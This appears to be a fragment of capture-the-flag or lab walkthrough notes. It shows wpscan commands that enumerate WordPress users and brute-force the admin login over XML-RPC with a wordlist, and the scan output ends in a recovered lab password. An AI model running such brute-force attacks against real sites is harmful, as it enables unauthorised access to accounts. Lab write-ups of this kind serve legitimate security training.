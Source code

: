 3. **WPScan**

- _kali#wpscan --url http:ip-addr/blog --enumerate u_
- _kali# wpscan --url http://ip-addr/blog --username admin --password /usr/share/wordlists/rockyou.txt_

```txt
...
[+] XML-RPC seems to be enabled: http://10.10.165.59/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://10.10.165.59/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.165.59/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.165.59/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.165.59/wordpress/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <==================================================================================================> (21 / 21) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - admin / my2boys
```

Users' credentials enumeration via [xmlprc](https://protector47.medium.com/how-to-hack-wordpress-website-via-xmlrpc-php-61c813fa3740)
